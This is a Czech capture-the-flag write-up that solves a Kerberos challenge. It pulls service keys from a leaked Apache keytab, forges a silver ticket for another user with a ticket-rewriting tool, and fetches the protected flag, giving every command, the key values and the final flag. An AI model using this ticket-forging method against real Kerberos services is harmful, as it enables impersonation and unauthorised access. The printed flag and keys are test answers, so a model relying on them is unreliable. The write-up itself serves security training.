# Torso of Web Server

## Zadání

```
Hi Expert,

some remains of a web server were found on http://78.128.246.143. Maybe the administrators didn't finish it, maybe it just started to fall apart without maintenance, but it certainly contains interesting information that needs to be obtained.

Good Luck!

Hint: Check also other services on given server 78.128.246.143.
```

## Řešení

### Soubory na webu http://78.128.246.143/

* apache2.conf - konfigurace web serveru
* apache2.keytab - tabulka klíčů pro kerberos
* flag.txt - vlajka kterou chceme získat
* ticketer_mit.c - zdrojový kód pro získání "silver ticket"

#### apache2.conf

Pro získání flag.txt je třeba se autorizovat jako `euripides@SUPERCLIENT.TCC` pomocí kerberos:

```
Listen 19091
<VirtualHost *:19091>
	ServerName ctfb4.tcc
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	DocumentRoot /opt/ctfb4/web
	<Directory "/opt/ctfb4/web">
		Require all granted
		Options +Indexes
		IndexOptions +ShowForbidden
	</Directory>

	<Files "flag.txt">
		AuthType GSSAPI
		AuthName "Designing an Authentication System: a Dialogue in Four Scenes"
		GssapiCredStore keytab:/opt/ctfb4/web/apache2.keytab
		Require user "euripides@SUPERCLIENT.TCC"
	</Files>
</VirtualHost>
```

#### apache2.keytab

Informace z keytab souboru získané pomocí `klist`:

```
klist -k -K apache2.keytab 

Keytab name: FILE:apache2.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   1 HTTP/ctfb4.tcc@SUPERCLIENT.TCC (0x16049ef7a077513c1ae0f2e69a1d6c3aff607956c1ff7fff1a092823431da235)
   1 HTTP/ctfb4.tcc@SUPERCLIENT.TCC (0x3746ead7ac5622b631b397f3e949da14)
```

#### ticketer_mit.c

Program provede dekódování ticketu pomocí zadaného klíče, změnu principal a opětovné zakódování ticketu. Ticket potom použijeme pro získání vlajky. Zkompilování ticketeru:

```
gcc -o ticketer_mit ticketer_mit.c -lk5crypto -lkrb5
```

### Získání vlajky

#### 1. Nastavení kerberos v `/etc/krb5.conf`

```
[libdefaults]
	default_realm = SUPERCLIENT.TCC
    
[realms]
	SUPERCLIENT.TCC = {
		kdc = 78.128.246.143:88
	}
```

#### 2. Získání TGT pro službu HTTP

```
kinit -t apache2.keytab -V HTTP/ctfb4.tcc@SUPERCLIENT.TCC -S HTTP/ctfb4.tcc@SUPERCLIENT.TCC

keytab specified, forcing -k
Using default cache: /tmp/krb5cc_1000
Using principal: HTTP/ctfb4.tcc@SUPERCLIENT.TCC
Using keytab: apache2.keytab
Authenticated to Kerberos v5
```

#### 3. Silver ticket pro uživatele `euripides@SUPERCLIENT.TCC`

Klíč známe z apache2.keytab

```
./ticketer_mit 16049ef7a077513c1ae0f2e69a1d6c3aff607956c1ff7fff1a092823431da235 euripides@SUPERCLIENT.TCC

Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: HTTP/ctfb4.tcc@SUPERCLIENT.TCC

creds session key:
D6 56 83 AE BB 30 9D 86  06 3C 54 0E 84 AC 44 90  |  .V...0...<T...D. 
B8 14 B1 DB 70 63 5D B5  1D E8 33 13 13 59 43 2A  |  ....pc]...3..YC* 
decrypted ticket session key:
D6 56 83 AE BB 30 9D 86  06 3C 54 0E 84 AC 44 90  |  .V...0...<T...D. 
B8 14 B1 DB 70 63 5D B5  1D E8 33 13 13 59 43 2A  |  ....pc]...3..YC* 
new cache name: /tmp/tktHFgIXT
```

#### 4. Nastavení nové credentials cache

```
export KRB5CCNAME=/tmp/tktHFgIXT
```

#### 5. Pokus o získání vlajky

```
curl --negotiate -u : http://78.128.246.143/flag.txt

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 78.128.246.143 Port 80</address>
</body></html>
```

#### 6. Zobrazení detailnějších informací o průběhu autorizace

https://web.mit.edu/kerberos/krb5-1.12/doc/admin/env_variables.html

```
export KRB5_TRACE=/dev/stdout
curl --negotiate -u : http://78.128.246.143/flag.txt

[2248] 1635359503.648618: ccselect module realm chose cache FILE:/tmp/tktHFgIXT with client principal euripides@SUPERCLIENT.TCC for server principal HTTP/78.128.246.143@SUPERCLIENT.TCC
[2248] 1635359503.648619: Getting credentials euripides@SUPERCLIENT.TCC -> HTTP/78.128.246.143@ using ccache FILE:/tmp/tktHFgIXT
[2248] 1635359503.648620: Retrieving euripides@SUPERCLIENT.TCC -> HTTP/78.128.246.143@ from FILE:/tmp/tktHFgIXT with result: -1765328243/Matching credential not found (filename: /tmp/tktHFgIXT)
[2248] 1635359503.648621: Retrying euripides@SUPERCLIENT.TCC -> HTTP/78.128.246.143@SUPERCLIENT.TCC with result: -1765328243/Matching credential not found (filename: /tmp/tktHFgIXT)
```

Problém je tedy s IP adresou 78.128.246.143, kdy mi potřebujeme hledat `HTTP/ctfb4.tcc`.

#### 7. Úprava `/etc/hosts`

```
78.128.246.143  ctfb4.tcc
```

#### 8. Získání vlajky
```
curl --negotiate -u : http://78.128.246.143/flag.txt

FLAG{RhXd-vITI-vpXG-zQ3d}
```
